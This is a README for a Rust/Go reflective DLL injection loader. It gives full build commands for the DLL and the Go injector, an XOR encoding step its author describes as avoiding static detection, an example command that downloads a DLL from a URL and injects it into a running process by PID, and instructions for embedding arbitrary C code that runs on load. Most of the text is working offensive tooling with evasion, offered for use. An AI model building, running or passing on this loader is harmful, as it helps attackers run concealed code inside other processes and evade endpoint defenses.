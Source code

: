 # Sneaky_Loader
Custom loader - Rust/Go Dll Reflective Injection - Supports 32/64 bits but not ARM for the moment

# How to use it ?

1. Clone the repo
```
git clone <repo>
```

2. x32 - Compile the 32 bits dll
```
cd RustyLoader
rustup target add i686-pc-windows-msvc
cargo build --target=i686-pc-windows-msvc --release
```

2. x64 - Compile the 64 bits dll
```
cd RustyLoader
cargo build --release
```

3. x32 - Copy the compiled dll
```
Copy-Item .\target\i686-pc-windows-msvc\release\rusty_inject.dll -Destination ..\GogoInjector\
```

3. x64 - Copy the compiled dll
```
Copy-Item .\target\release\rusty_inject.dll -Destination ..\GogoInjector\
```

Optional - xor the dll to avoid static detection on memory inspection after the dll download. 

```
inject.go -encode "rusty_inject.dll"
```

A .enc version of the dll is produced. No need to specify to the injector that it is encoded, it will detect it by itself.

4. x32 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="386"
go build .\inject.go
```

4. x64 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="amd64"
go build .\inject.go
```

5. Test it

x32 : 
Spawn a 32 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\SysWOW64\cmd.exe" -PassThru
$process.Id
```

x64 : 
Spawn a 64 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\System32\cmd.exe" -PassThru
$process.Id
```

Inject the dll :

Usage :
```
.\inject.exe 
  -encode string
        path of the dll to encode
  -local string
        Local file path
  -pid int
        Process ID
  -url string
        URL of the file
```

Example
```
.\inject.exe -pid  21108 -url http://127.0.0.1:8080/rusty_inject.dll
```
![Alt text](/assets/injected2.png)


6. Inject C program : from .c file 

- Add your C code in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
```

- Modify Cargo.toml
```
[dependencies]
ntapi = "0.4.0"
winapi = { version = "0.3", features = ["winuser"] }

[build-dependencies]
cc = "1.0"

[build]
rustc-flags = "-L native=target/release/ -l static:cdll"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
|-- build.rs
```

Content :
```
fn main() {
    cc::Build::new()
        .file("c_code.c")
        .compile("cdll");
}
```
- Modify lib.rs :

```
extern crate winapi;
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

6. Inject C program : from static library

- Compile c code as object file :
```
gcc -c c_code.c -o c_code.o
```

- Compile as static library  :
```
ar rcs staticlib.lib c_code.o 
```

- Add your static library to libs/ :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
```

- Modify Cargo.toml
```
[package]
build = "build.rs"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- build.rs
```

Content :
```
fn main() {
    // Tell Cargo where to find the static library
    println!("cargo:rustc-link-search=./libs");

    // Tell Cargo to link our static library
    println!("cargo:rustc-link-lib=static=staticlib");
}

```
- Modify lib.rs :

```
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

# How to use the debug version ?

The directory debug_RustyLoader contains a verbose version of the RustyLoader. 
It works in a slightly different way :

	- It is an exe, not a dll. 
	- It operates as an injector and also a loader.
	- It reads the dll named debug_dll.dll in /dll_to_inject .
	- It loads the raw dll in the self process memory and perfoms all the loading operations as RustyLoader would do but with verbose printed logs. Once loaded, it calls dllmain.

Put the dll to be tested in the directory debug_RustyLoader\dll_to_inject and name it debug_dll.dll.
```
cd debug_RustyLoader
cargo run --target=i686-pc-windows-msvc
```
![Alt text](/assets/injected_verbose.png)

# References
    - https://github.com/stephenfewer/ReflectiveDLLInjection
    - https://github.com/memN0ps/arsenal-rs/tree/main/rdi-rs
    - https://github.com/C-Sto/BananaPhone/tree/master